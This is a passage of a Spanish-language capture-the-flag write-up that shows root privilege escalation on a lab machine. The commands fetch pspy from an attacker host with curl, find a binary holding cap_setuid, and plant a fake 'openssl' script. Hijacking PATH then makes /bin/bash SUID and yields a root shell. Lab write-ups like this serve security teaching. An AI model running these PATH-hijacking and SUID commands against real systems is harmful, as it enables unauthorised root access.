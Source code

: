 ```shell

www-data@pki:/tmp/privesc$ __curl http://192.168.254.2:8088/pspy64 > pspy
www-data@pki:/tmp/privesc$ file pspy 
pspy: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```
Primero al momento de la enumeración vimos un binario que tienen la capability setuid, podemos revisar con pspy los procesos que inicia cuando lo ejecutamos.

```shell
www-data@pki:~/html$ getcap -r / 2>/dev/null
/usr/bin/ersatool = cap_setuid+eip
```
![imagen9](/assets/images/Static/static9.png)

Podemos notar que está utilizando openssl pero sin su ruta absoluta, podemos intentar hacer un path hijacking para verificar que sea vulnerable a esto. Nos creamos un archivo openssl en nuestra ruta tmp, cambiamos el path para que apunte primero a tmp y después ejecutamos ersatool y vemos que pudimos cambiar el binario bash a suid, así podemos rootear la máquina.

```shell
www-data@pki:/tmp/privesc$ echo -e '#!/bin/bash\nchmod u+s /bin/bash' > openssl'
www-data@pki:/tmp/privesc$ echo $PATH  
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@pki:/tmp/privesc$ export PATH=/tmp/privesc:$PATH
www-data@pki:/tmp/privesc$ echo $PATH
/tmp/privesc:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
www-data@pki:/tmp/privesc$ /usr/bin/ersatool 
create
create->CN=loquesea2
<SNIP>
www-data@pki:/tmp/privesc$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  6  2019 /bin/bash
www-data@pki:/tmp/privesc$ bash -p
bash-4.4# whoami
root
```

